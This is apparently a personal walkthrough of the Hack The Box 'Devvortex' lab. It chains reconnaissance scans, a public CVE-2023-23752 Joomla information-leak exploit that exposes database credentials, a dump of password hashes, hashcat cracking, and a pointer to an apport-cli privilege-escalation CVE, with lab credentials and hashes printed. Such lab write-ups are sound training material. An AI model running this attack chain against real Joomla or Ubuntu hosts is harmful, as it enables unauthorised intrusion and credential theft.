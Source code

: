 # nmap scanning

`nmapinit devvortex.htb`

Nothing interesting really besides a website.

# vhost scanning

```
$ ffuf -w /usr/share/wordlists/dirb/big.txt:FUZZ -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -c -mc 200    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://devvortex.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Header           : Host: FUZZ.devvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

[Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 317ms]
    * FUZZ: dev

:: Progress: [20469/20469] :: Job [1/1] :: 205 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

So we know we can go to `dev.devvortex.htb`

# nmap init

```
$ nmapinit dev.devvortex.htb
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-22 10:47 MDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating SYN Stealth Scan at 10:47
Scanning dev.devvortex.htb (10.129.87.188) [1000 ports]
Discovered open port 80/tcp on 10.129.87.188
Discovered open port 22/tcp on 10.129.87.188
Completed SYN Stealth Scan at 10:47, 0.89s elapsed (1000 total ports)
Initiating Service scan at 10:47
Scanning 2 services on dev.devvortex.htb (10.129.87.188)
Completed Service scan at 10:47, 6.12s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.87.188.
Initiating NSE at 10:47
Completed NSE at 10:47, 3.44s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.24s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Nmap scan report for dev.devvortex.htb (10.129.87.188)
Host is up (0.055s latency).
rDNS record for 10.129.87.188: devvortex.htb
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Devvortex
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Initiating NSE at 10:47
Completed NSE at 10:47, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds
           Raw packets sent: 1000 (44.000KB) | Rcvd: 1000 (40.008KB)

```

# Auth bypass

https://github.com/ThatNotEasy/CVE-2023-23752

```

█████╗ ██████╗  █████╗  ██████╗  ██████╗ ███╗   ██╗███████╗ ██████╗ ██████╗  ██████╗███████╗   ██╗ ██████╗ 
██╔══██╗██╔══██╗██╔══██╗██╔════╝ ██╔═══██╗████╗  ██║██╔════╝██╔═══██╗██╔══██╗██╔════╝██╔════╝   ██║██╔═══██╗
██║  ██║██████╔╝███████║██║  ███╗██║   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██║     █████╗     ██║██║   ██║
██║  ██║██╔══██╗██╔══██║██║   ██║██║   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝     ██║██║   ██║
██║  ██║██╔══██╗██╔══██║██║   ██║██║   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║     ██╔══╝     ██║██║   ██║
██████╔╝██║  ██║██║  ██║╚██████╔╝╚██████╔╝██║ ╚████║██║     ╚██████╔╝██║  ██║╚██████╗███████╗██╗██║╚██████╔╝
╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝  ╚═════╝ ╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═╝╚═╝ ╚═════╝ 
═════════════╦═════════════════════════════════╦════════════════════════════════════════════════════════════
╔════════════╩═════════════════════════════════╩═════════════════════════════╗
║ • AUTHOR                 |   PARI MALAM                                    ║
║ • GITHUB                 |   GITHUB.COM/PARI-MALAM                         ║
╔════════════════════════════════════════════════════════════════════════════╝
║ • OFFICIAL FORUM         |   DRAGONFORCE.IO                                ║
║ • OFFICIAL TELEGRAM      |   @DRAGONFORCE.IO                               ║
╚════════════════════════════════════════════════════════════════════════════╝
[CVE-2023-23752] - Authentication Bypass Information Leak on Joomla!

[1] - Single Scan
[2] - Massive Scan

[CVE-2023-23752]: 1

IP/Domain: dev.devvortex.htb

[CVE-2023-23752] - dev.devvortex.htb .: [Scanning!]

[+] Domain            : dev.devvortex.htb
[+] Database Type     : mysqli
[+] Database Prefix   : sd4fg_
[+] Database          : joomla
[+] Hostname          : localhost
[+] Username          : lewis
[+] Password          : P4ntherg0t1n5r3c0n##
```

# suid stuff

`find / -perm 4000 2>/dev/null`


# mysql db connected with db creds from above

mysql> SELECT * FROM sd4fg_users
SELECT * FROM sd4fg_users
    -> ;
;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2024-03-22 18:36:07 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)

# Hashcat

`hashcat -m 3200 -a 0 ./hash /usr/share/wordlists/rockyou.txt`

tequieromucho

# sudo -l

```
$ sudo -l            sudo -l
sudo -l
[sudo] password for logan: tequieromucho


Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

# priv esc with apport-cli

https://diegojoelcondoriquispe.medium.com/cve-2023-1326-poc-c8f2a59d0e00

